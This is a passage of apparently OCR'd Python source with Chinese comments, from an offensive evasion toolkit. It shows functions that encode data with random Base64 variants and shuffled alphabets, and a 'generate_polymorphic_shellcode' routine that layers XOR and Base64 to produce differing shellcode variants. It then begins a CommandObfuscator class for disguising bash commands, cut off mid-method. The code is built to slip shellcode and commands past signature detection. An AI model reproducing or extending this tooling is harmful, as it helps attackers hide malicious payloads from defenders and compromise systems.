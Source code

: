 ```python
        url_b64 = base64.urlsafe_b64encode(data).decode('utf-8')
        
        # 自定义字符集 Base64
        custom_b64 = self.custom_base64(data)
        
        return random.choice([std_b64, url_b64, custom_b64])
    
    def custom_base64(self, data):
        """自定义 Base64 编码表"""
        # 创建自定义编码表
        custom_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
        custom_chars = ''.join(random.sample(custom_chars, len(custom_chars)))
        
        # 实现自定义 Base64 编码
        standard_b64 = base64.b64encode(data).decode('utf-8')
        custom_b64 = ''
        
        translation = str.maketrans(
            "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/",
            custom_chars
        )
        
        return standard_b64.translate(translation)
    
    def generate_polymorphic_shellcode(self, original_shellcode):
        """生成多态 Shellcode"""
        polymorphic_variants = []
        
        # 多种编码组合
        encodings = [
            lambda x: self.xor_encrypt(x),
            lambda x: base64.b64encode(x),
            lambda x: base64.b64encode(self.xor_encrypt(x)),
            lambda x: self.xor_encrypt(base64.b64encode(x)),
            lambda x: base64.b64encode(self.xor_encrypt(base64.b64encode(x)))
        ]
        
        for encode_func in encodings:
            try:
                encoded = encode_func(original_shellcode)
                polymorphic_variants.append(encoded)
            except:
                continue
        
        return random.choice(polymorphic_variants)
```

### 2. 命令混淆技术

```python
class CommandObfuscator:
    """命令混淆器"""
    
    def obfuscate_bash_command(self, command):
        """Bash 命令混淆"""
        techniques = [
            self._base64_encoding,
            self._hex_encoding,
            self._variable_substitution,
            self._backslash_obfuscation,
            self._quote_obfuscation
        ]
        
```